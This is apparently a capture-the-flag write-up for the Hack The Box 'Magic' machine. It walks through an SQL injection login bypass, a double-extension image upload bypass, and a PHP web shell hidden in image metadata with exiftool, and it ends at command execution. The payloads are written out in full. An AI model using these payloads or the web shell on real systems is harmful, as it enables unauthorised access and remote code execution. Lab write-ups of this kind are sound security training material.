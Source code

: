 The scan shows that port 22 on ssh and port 80 on http are open:


## Port 80

Navigating to the website gives us a portfolio of images.

The website seems to be a an image hosting and sharing platform where you can upoload your pictures and then they will be displayed.

![home page](https://i.ibb.co/fDgw3CN/magic-home-screen.png)

We see the `text` login in the bottom left of the screen. We click on this and it forwards us to a login screen.

![login-screen](https://i.ibb.co/VgwwQBj/magic-login-page.png)

We start by testing simple Sqlinjection payloads such as `' OR 1=1` and experimenting with `"` and `;` to try and tweak it to give us access. We finally come to our final command that works. It is:

```
admin' or 1=1; --';
```

![sqllogin](https://i.ibb.co/1LGvzN5/mage-sqli-login-page.png)

After this we are exposed to the image upload feature that we assumed we would get at some point.
We test uploading sample images to see what extensions we can get away with and in fact if we name a file `file.php.jpeg` we can get away with executing the php part of it as the website only seems to make sure that the final file extension is either png, jpg or jpeg.

![uploadpage](https://i.ibb.co/mDpynkt/upload-image.png)

We will now use `exiftool` to embed some php code into our image.

We will use this code: `<?php echo "<pre>"; system($_GET['cmd']); ?>`. This allows us to once we upload and head to our file in the url e.g http://website.com/image.php.jpeg insert our own command and allow us to get code execution with it.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.jpeg
    1 image files updated
```



We then upload the image to the site.

![imageupload](https://i.ibb.co/jWP8JM3/image-uploaded-success.png) 

And then navigate to this url:

`http://10.10.10.185/images/uploads/image.php.jpeg?cmd=`
We can now run commands.

We run `ls` as a test to see if it works and it does in fact work.

